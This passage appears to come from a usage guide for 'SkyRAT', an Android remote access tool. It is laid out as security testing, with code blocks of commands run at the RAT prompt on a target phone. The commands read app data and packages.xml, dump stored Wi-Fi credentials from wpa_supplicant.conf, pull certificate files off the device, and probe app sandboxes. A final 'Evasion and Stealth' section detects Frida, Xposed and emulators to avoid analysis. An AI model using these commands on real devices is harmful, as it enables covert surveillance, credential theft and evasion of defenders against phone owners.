 ### **Android Security Mechanism Testing**

Test various Android security features and restrictions.

#### **Permission Escalation Testing**
```bash
# Test permission boundaries
SkyRAT:/> shell ls -la /data/data/
SkyRAT:/> shell cat /data/system/packages.xml
SkyRAT:/> shell ls -la /system/etc/permissions/

# Test accessibility service abuse
SkyRAT:/> shell dumpsys accessibility
SkyRAT:/> shell settings get secure accessibility_enabled

# Test device admin capabilities  
SkyRAT:/> shell dpm list-owners
SkyRAT:/> shell dumpsys device_policy
```

#### **Network Security Testing**
```bash
# Certificate analysis
SkyRAT:/> shell ls -la /system/etc/security/cacerts/
SkyRAT:/> download /system/etc/security/cacerts/[cert-file]

# Network configuration
SkyRAT:/> shell cat /data/misc/wifi/wpa_supplicant.conf
SkyRAT:/> shell dumpsys connectivity

# VPN analysis
SkyRAT:/> shell cat /proc/net/route | grep tun
SkyRAT:/> shell ip route show table all
```

#### **Application Sandbox Testing**
```bash
# Test app isolation
SkyRAT:/> shell run-as com.android.chrome ls -la
SkyRAT:/> shell ls -la /data/data/com.android.chrome/

# Shared storage access
SkyRAT:/> shell ls -la /sdcard/Android/data/
SkyRAT:/> shell ls -la /storage/emulated/0/Android/
```

### **Evasion and Stealth Testing**

Test detection evasion capabilities.

#### **Anti-Analysis Evasion**
```bash
# Check for analysis tools
SkyRAT:/> shell ps aux | grep -E "(frida|xposed|substrate)"
SkyRAT:/> shell ls -la /data/local/tmp/
SkyRAT:/> shell netstat -tulpn | grep -E "(23946|27042)"

# Emulator detection
SkyRAT:/> shell getprop ro.product.model | grep -i emulator
SkyRAT:/> shell cat /proc/cpuinfo | grep -i goldfish
SkyRAT:/> shell ls -la /system/bin/ | grep -E "(genymotion|bluestacks)"
```
